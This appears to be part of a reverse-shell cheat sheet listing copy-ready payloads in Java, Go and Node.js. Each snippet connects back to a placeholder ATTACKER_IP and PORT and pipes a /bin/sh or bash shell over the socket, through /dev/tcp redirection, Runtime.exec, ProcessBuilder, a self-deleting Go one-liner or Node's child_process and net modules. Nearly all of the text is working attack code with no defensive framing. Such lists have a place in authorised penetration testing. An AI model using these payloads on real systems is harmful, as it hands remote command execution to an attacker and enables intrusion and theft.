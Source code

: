 
## Java

### Basic
```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/ATTACKER_IP/PORT;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();
```

### Alternative
```java
String host="ATTACKER_IP";
int port=PORT;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try{p.exitValue();break;}catch(Exception e){}};p.destroy();s.close();
```

---

## Golang

### Basic
```go
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","ATTACKER_IP:PORT");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

---

## Node.js

### Basic
```javascript
require('child_process').exec('bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1')
```

### Alternative
```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(PORT, "ATTACKER_IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents Node.js from exiting
})();
```

---
